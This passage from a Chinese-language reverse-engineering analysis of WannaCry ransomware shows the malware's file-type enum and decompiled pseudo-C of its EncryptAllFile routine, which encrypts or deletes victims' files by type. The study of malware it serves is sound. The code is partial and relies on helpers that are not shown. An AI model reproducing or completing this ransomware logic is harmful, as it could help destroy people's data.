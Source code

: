 ```c
```

该函数会首先遍历所有的文件，对文件和文件夹执行不同的操作并且对后缀名进行过滤，跳过@Please_Read_Me@.txt，@WanaDecryptor@.exe.lnk，@WanaDecryptor@.bmp总结为枚举



### 6.2.5 第五层

```c
enum FILE_TYPE  
{  
FILE_TYPE_NULL = 0,  
FILE_TYPE_EXEDLL,  
FILE_TYPE_DOC,  
FILE_TYPE_DOCEX,  
FILE_TYPE_WNCRYT, //.wncryt  
FILE_TYPE_WNCYR, //.wncyr  
FILE_TYPE_WNCRY //.wncry  
}  

int __thiscall EncryptAllFile(const wchar_t this, wchar_t TargetFileFullPath, int Num_1)  
{  

const wchar_t this_1; // edi  
int result; // eax  
this_1 = this;  

	switch ( sub_10002E70(TargetFileFullPath, Num_1) )// 根据返回值不同执行不同的操作  
	{  

	case 0:  return 1;  

	case 2:  DeleteFileW_Addr(TargetFileFullPath);  return 1;  

	case 3:  if ( EncryptFiles(this_1, TargetFileFullPath, 3) )// 加密文件 
		{  
			wcscat(TargetFileFullPath, WNCRT);  
			wcscat(TargetFileFullPath + 360, WNCRT);  
			((_DWORD)TargetFileFullPath + 312) = 5;  
		}  
		goto LABEL_5;  

	case 4:                                     // .jpg  
        EncryptFiles(this_1, TargetFileFullPath, 4);  
		result = 1;  
		break;  

	default:  

	LABEL_5:  
		result = 0;  
		break;  

		}  
	return result;  
} 
```

